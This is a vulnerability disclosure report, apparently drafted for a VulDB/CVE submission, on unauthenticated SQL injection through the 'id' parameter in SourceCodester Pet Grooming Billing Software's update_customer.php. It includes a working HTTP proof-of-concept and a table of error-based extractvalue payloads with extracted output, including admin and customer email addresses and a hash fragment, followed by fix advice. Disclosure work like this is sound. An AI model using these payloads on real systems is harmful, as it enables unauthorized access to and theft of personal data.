

# SourceCodester Pet Grooming Billing Software 1.0 /admin/update_customer.php id= SQL Injection

## Author

- (submitter name pending user confirmation — will be filled from vuldb.txt account at submission time)

## Vendor and Software Links

- https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html
- https://www.sourcecodester.com/download-code?nid=18340

## Overview

- Pet Grooming Billing Software (SourceCodester, author mayuri_k), version 1.0 (current public download, 2026-11), concatenates the attacker-controlled POST parameter `id` directly into a SELECT statement in `/admin/update_customer.php` and executes it through PDO. The endpoint performs no session check of its own and the shared auth include only sends a `Location` header without stopping execution, so the injection is reachable unauthenticated. Error-based exploitation extracts arbitrary database content (administrator credentials, customer PII) in the HTTP response.

## Root Cause

- `/admin/update_customer.php:7` builds the SQL by string concatenation of `$_POST['id']` and executes it at `:10-11`:

```php
// admin/update_customer.php:7-11
$sql = "SELECT * FROM tbl_customer where cust_id='".$_POST['id']."'";
$statement1 = $conn->prepare($sql);
$statement1->execute();
```

- The parameter travels from `$_POST['id']` into the SQL text with no casting, no escaping, and no bound parameter (`prepare()` is applied to the already-concatenated string, which provides no protection). The connection uses `PDO::ERRMODE_EXCEPTION` (`admin/update_customer.php` connection setup), so a malformed statement — or an `extractvalue()` XPATH error raised inside a valid one — surfaces as an uncaught `PDOException` whose message is printed to the response by PHP's error output, returning extracted data to the attacker.
- The file's own top is `<?php include('include/head.php');?>`, and `include/head.php:4` requires `assets/constants/check-login.php`:

```php
// assets/constants/check-login.php:4-13
if (isset($_SESSION['logged']) && $_SESSION['logged'] == "1" && $_SESSION['role'] == "admin") {
  ...
} else {
  header("location:../");
}
```

  The redirect header is sent **without `exit`**, so PHP continues executing the page — the query at `:7` still runs, and the response body still contains the injection output. The attacker simply ignores the 302 status (any HTTP client that does not follow redirects, or reads the body, receives the data).

## Impact

- Unauthenticated arbitrary SQL read against the `pet_grooming` database. Demonstrated extraction includes the administrator account's email and salted password hash, and the full customer email list. Chained with the hard-coded default credentials (separate finding), the hash is crackable offline, giving complete ERP takeover. Because `mysqli`/PDO error output is enabled in the product's typical deployment (and shown in the default `php -S`/Apache setups), the same vector works as an error-based data channel without any boolean oracle.

## PoC

- Verified over HTTP against the local deployment (127.0.0.1:8149); complete transcripts in `poc/F4-F5-F6-F7-verification.txt` (sections "F5").

```
POST /admin/update_customer.php HTTP/1.1
Host: 127.0.0.1:8149
Content-Type: application/x-www-form-urlencoded

id=1' AND extractvalue(1,concat(0x7e,(SELECT GROUP_CONCAT(cust_email) FROM tbl_customer),0x7e))-- -
```

- Response (verbatim extract — the uncaught PDOException carries the query result):

```
Fatal error: Uncaught PDOException: SQLSTATE[HY000]: General error: 1105
XPATH syntax error: '~rajesh.sharma@email.com,priya.v' in
...\admin\update_customer.php:11
Stack trace:
#0 ...\admin\update_customer.php(11): PDOStatement->execute()
```

- Data-extraction steps reproduced the same way:

| payload (id=...) | extracted value |
|---|---|
| `1' AND extractvalue(1,concat(0x7e,(SELECT version()),0x7e))-- -` | `~8.0.12~` |
| `1' AND extractvalue(1,concat(0x7e,(SELECT database()),0x7e))-- -` | `~pet_grooming~` |
| `1' AND extractvalue(1,concat(0x7e,(SELECT email FROM tbl_admin ORDER BY id LIMIT 1),0x7e))-- -` | `~mdkhairnar92@gmail.com~` |
| `1' AND extractvalue(1,concat(0x7e,substr((SELECT password FROM tbl_admin ORDER BY id LIMIT 1),1,20),0x7e))-- -` | `~aa7f019c326413d5b8bc~` |
| `1' AND extractvalue(1,concat(0x7e,(SELECT GROUP_CONCAT(cust_email) FROM tbl_customer),0x7e))-- -` | `~rajesh.sharma@email.com,priya.v...` |

## Payload

```
id=1' AND extractvalue(1,concat(0x7e,(<subquery>),0x7e))-- -
```

## Screenshot

- Browser-rendered proof: request payload and the XPATH error carrying the customer email list, with the stack trace naming `update_customer.php:11`:



## Suggested repair

1. **Use a bound parameter:** replace the concatenation with `$sql = "SELECT * FROM tbl_customer WHERE cust_id = :id";` and `$statement1->bindParam(':id', $_POST['id'], PDO::PARAM_INT);` (the value is numeric everywhere it is used).
2. **Restore the auth gate:** the file must not fall through `check-login.php`; add `exit;` after the `header()` in `assets/constants/check-login.php:11` and require a session before any query.
3. **Disable verbose error output in production:** set `display_errors=Off` and log errors server-side so failed statements do not become a data channel.
4. **Audit sibling pages:** the same concat-into-prepare pattern exists in `admin/barcode.php:61`, `admin/operation/role.php:41-53`, `admin/operation/paid.php:22` — parameterize all of them (the `role.php`/`paid.php`/`barcode.php` SQLi sinks are already covered by CVE-2025-10430 / CVE-2025-10688; fix them together).

## Dedup note

- NVD: CVE-2026-7447 covers `/admin/update_customer.php` but only the **`type`/`length`/`business`** parameter arguments (checked via NVD API full text 2026-11-10: "This manipulation of the argument type/length/business parameter validity causes sql injection"). This finding is the **`id`** parameter sink at `update_customer.php:7` — same file, different parameter, therefore new per the dedup rule. (Some third-party summaries of CVE-2026-7447 mis-attribute it to the `id` parameter; the authoritative NVD text names type/length/business.)
- NVD: the remaining 31 CVEs for this product cover other files or types; none covers the `id` parameter of `update_customer.php`.
- VulDB: no entry for the `id` parameter of this file (three search-engine index passes restricted to vuldb.com, checked 2026-11-10; VulDB site itself unreachable behind Cloudflare).
